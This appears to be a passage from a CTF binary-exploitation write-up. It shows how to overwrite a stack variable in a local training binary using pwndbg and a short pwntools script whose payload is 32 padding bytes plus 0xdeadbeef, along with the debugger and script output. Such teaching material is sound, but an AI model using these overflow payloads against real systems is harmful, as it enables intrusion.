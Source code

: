 The desired value is `0xdeadbeef`. We can confirm by overwriting the variable on the debugger.

First we are going to check which is the current value of the memory address `EBP - 0xc`.

```
pwndbg> x $ebp -0xc
0xffffcc8c:     0x12345678
```

Now if we modify the `0xffffcc8c` memory address to the desired one `0xdeadbeef` and continue the program we will see that we complete the challange.

```
pwndbg> set *0xffffcc8c = 0xdeadbeef
pwndbg> x $ebp -0xc
0xffffcc8c:     0xdeadbeef
pwndbg> c
Continuing.
good job!!
deadbeef
[Inferior 1 (process 20292) exited normally]
```

Finally we just need to complete our script, we need to check with `file` command if the binary is little or bigger endian. In that case we are working with a `32-bit LSB` binary so we need to reverse the bytes.

```python
from pwn import *
io = process('./overwrite')
payload = 32 * b'A' + b'\xef\xbe\xad\xde'
io.sendlineafter(b'?', payload)
print(io.recvall().decode())
```

```
$ python3 myexploit.py
[+] Starting local process './overwrite': pid 21719
[+] Receiving all data: Done (21B)
[*] Process './overwrite' stopped with exit code 0 (pid 21719)
 good job!!
deadbeef
```

# References

* [https://github.com/Crypto-Cat/CTF/tree/main/pwn/binary_exploitation_101](https://github.com/Crypto-Cat/CTF/tree/main/pwn/binary_exploitation_101)